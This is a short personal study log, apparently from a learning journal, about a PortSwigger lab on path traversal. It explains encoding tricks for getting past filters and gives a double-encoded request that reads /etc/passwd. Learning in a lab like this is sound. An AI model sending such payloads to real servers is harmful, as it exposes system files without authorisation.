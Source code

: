## Path Traversals
**Date completed**: 2025-05-08

No I missed two days on my CTF Streak :(. It's okay we continue forward! Starting the streak again. CTFs were getting exponentially more difficult, so I'm starting portswigger's academy lessons/labs on common web vulnerabilities using BurpSuite. This will help me with future CTFs, as well as enhance my overall cybersecurity knowledge.

### Goal

Understand the basic path traversal vulnerabilities.

### Key concepts


#### URL Encoding Quick Notes

Overlapping tokens such as `....//` survive a single-pass filter that strips only the first `../`.*
| What you send     | 1st URL-decode step | 2nd URL-decode step | Meaning                  |
| ----------------- | ------------------- | ------------------- | ------------------------ |
| `%2e%2e%2f`       | `../`               | (no change)         | `../` (*single-encoded*) |
| `%252e%252e%252f` | `%2e%2e%2f`         | `../`               | `../` (*double-encoded*) |


### Example to Remember

1. Browse to **Product image** endpoint and intercept the request  
   `GET /image?filename=45.jpg`
2. Replace the `filename` value with  
3. Forward the request and observe the server returning the contents of `/etc/passwd`.

```http
GET /image?filename=%252e%252e%252f%252e%252e%252f%252e%252e%252fetc/passwd HTTP/2

🧠 What I Learned
  - More experience with BurpSuite
  - Path Traversal Vulnerabilities
  - URL Encoding to bypass basic filtering